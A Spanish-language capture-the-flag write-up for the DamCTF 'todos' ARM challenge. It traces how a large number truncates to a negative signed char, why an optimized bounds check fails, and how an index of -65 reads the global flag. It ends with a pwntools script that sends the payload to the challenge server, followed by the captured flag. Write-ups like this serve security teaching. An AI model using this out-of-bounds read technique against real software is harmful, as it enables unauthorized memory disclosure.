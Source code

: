 # todos

```
checksec --file todos
[*] '/home/kalcast/Descargas/Pwn/todos/todos'
    Arch:       arm-32-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        No PIE (0x10000)
    Stripped:   No
```

## Saltar validaciones en main.c

``` C
int read_unsigned(char **buf, size_t *len) {
    read_line(buf, len);
    char *end;
    long long result = strtoll(*buf, &end, 10);
    if (result < 0) {
        return -1;
    } else {
        return result;
    }
}
```

Esta funcion se llama para convertir la cadena introducida en un `long long`, si es un numero grande este se trunca al conetirse a un `int` (de 8 bytes se guardan solo los 4 menos significativos)

El tipo `int` es con signo, los que significa que si su bit mas significativo (MSB) esta activo entonces el resultado es negativo.

Por ejemplo el numero "1844674407370955160" tiene estos bits:

`00011001 10011001 10011001 10011001 10011001 10011001 10011001 10011000`

Si lo convertimos a int se queda en:

`10011001 10011001 10011001 10011000`  <--- MSB activo !

Si asignamos este valor a un signed int resultara en un negativo. Aqui un programa de ejemplo:
``` C
#include <stdio.h>

void print_binary(int num) {
    for (int i = 31; i >= 0; i--) {
        printf("%d", (num >> i) & 1);
        if (i % 8 == 0) printf(" ");
        if (i == 16) printf(" | ");
    }
    printf("\n");
}

int main() {
  long long test = 1844674407370955160;
  printf("LONG LONG: %llb\n\n",test);
  printf("SIGNED INT: %d\n\n",test);
  print_binary(test);
  return 0;
}
```

```
LONG LONG: 1844674407370955160

SIGNED INT: -1717986920

10011001 10011001  | 10011001 10011000
```

Luego ese valor se usa en esta funcion:
``` C
char read_char(char **buf, size_t *len) {
    int result = read_unsigned(buf, len);
    if (result == -1 || result > CHAR_MAX) {
        return -1;
    }
    return result;
}
```

Y aqui:
``` C 
 if (choice != -1) print_todo(choice);
...
 if (choice != -1) complete_todo(choice);
```

Con un valor grande que se trunque a un negativo nos saltamos todas las validaciones en `main.c`

## Detectar out-of-bounds en `todos.c` y problemas en la validacion del indice

Todo lo anterior fue con el objetivo de explotar una vulnerabilidad aqui en `print_todo`:
``` C
void print_todo(char i) {
    if (i < 0 || i >= next) {
        printf("Invalid TODO\n");
        return;
    }

    printf("// TODO: %s%s\n", todos[i].name, todos[i].completed ? " (done!)" : "");
}
```

Esto nos permitiria leer 55 bytes de memoria de manera arbitraria como un string si no tuviese esta validacion que evita que usemos indices fuera del rango:
```
    if (i < 0 || i >= next) {             
        printf("Invalid TODO\n");
        return;
    }
```

Pero sopresa!, la validacion no funciona correctamente:
```
./todos
1. Add a TODO
2. Print a TODO
3. Mark a TODO as completed
4. Edit a TODO
5. Check for incomplete TODOs
6. Exit
What would you like to do? 2
Which TODO would you like to print? 1844674407370955160
// TODO:
```

Entonces leemos el Makefile:
``` make
.SILENT:
OPT=-Os                                               <--- Una bandera de optimizacion ?
CFLAGS=-fsigned-char -static                          <--- Todos los char son signed char, en lugar de [0,255] ahora van de [-127,128]

todos: main.o todos.o
	gcc $(CFLAGS) $(OPT) main.o todos.o -o todos
main.o: main.c todos.h
	gcc $(CFLAGS) $(OPT) -c main.c
todos.o: todos.c todos.h
	gcc $(CFLAG) $(OPT) -c todos.c

.PHONY: clean
clean:
	rm -f todos *.o
```

Bueno, con eso vemos que cuando nuestro int se le pasa a la funcion `print_todo` lo hace como un signed char. Agregemos esta linea a nuestro programa de prueba y veamos:
``` C
 printf("SIGNED CHAR: %d\n\n",(signed char)(test)
```

```
LONG LONG: 1844674407370955160

SIGNED INT: -1717986920

SIGNED CHAR: -104

10011001 10011001  | 10011001 10011000
```

En efecto termina como un indice negativo. Obviamente `i >= next` no es verdad pero `i < 0` deberia serlo.

Probé el programa en x86 y x86_64 con el mismo Makefile y funcionaba bien, no me dejo imprimir nada fuera del rango pero por alguna razon en este binario ARM la ignora.

Supongo que se debe a la bandera de optimizacion. Debe haber algun conflicto con la bandera `fsigned char` que no se da cuenta y "optimiza" el programa ignorando `i<0` porque ve que el argumento es un char y este es positivo siempre.

**ACTUALIZACION**: Explicacion del autor
![2025-05-11-204205_769x267_scrot](https://github.com/user-attachments/assets/0dbc2de9-860c-4c26-9498-8b1bd6ac86a3)


## Lectura arbitraria

Como sabemos `flag` y el struct de structs `todos` son variables globales, que debido a que el binario no tiene PIE entonces tienen una direccion de memoria fija:
```
[0x0001053c]> is~flag
2977 0x00052238 0x00063238 GLOBAL OBJ    128       flag
3389 0x0003e9f4 0x0004e9f4 GLOBAL OBJ    350       _dl_arm_cap_flags
3537 0x00052b24 0x00063b24 GLOBAL OBJ    4         _dl_stack_flags
3554 0x000384b4 0x000484b4 GLOBAL OBJ    4         __rseq_flags
[0x0001053c]> is~todos
92   ---------- 0x00000000 LOCAL  FILE   0         todos.c
107  ---------- 0x000640a0 LOCAL  OBJ    560       todos
2925 0x00000820 0x00010820 GLOBAL FUNC   52        find_incomplete_todos
```

Como leimos del resto del codigo fuente sabemos que asi luce una estructura `Todo`:
```
struct Todo {
 char name[51];
 int completed;
}
```

Es decir 55 (o 56 bytes para alineacion) son reservados.

```
>>> (0x00063238-0x000640a0)/56
-65.85714285714286
```

Para llegar desde `0x000640a0` hasta `0x00063238` vamos a necesitar un indice con valor `-65`.

Usando el programa de prueba simplemente aumente el número hasta llegar a un valor que me resultara en `-65` al convertirlo. Ese valor fue `1844674407370955455`

``` python3
# Ya habia hecho un script porque pensaba que necesitariamos algo mas complejo
from pwn import *
#io = process("./todos")
io = remote("charful.chals.damctf.xyz",30128)
elf = context.binary = ELF("./todos")
context.log_level = 'debug'
# flag 0x00063238
# todos 0x000640a0
# next 0x0006409c
# todos[-65]
payload=b"1844674407370955455"
io.recvuntil(b"do?")
io.sendline(b"2")
io.sendlineafter(b"print?",payload)
io.interactive()
```

`dam{dont_you_love_to_play_with_fun_signed_chars} `





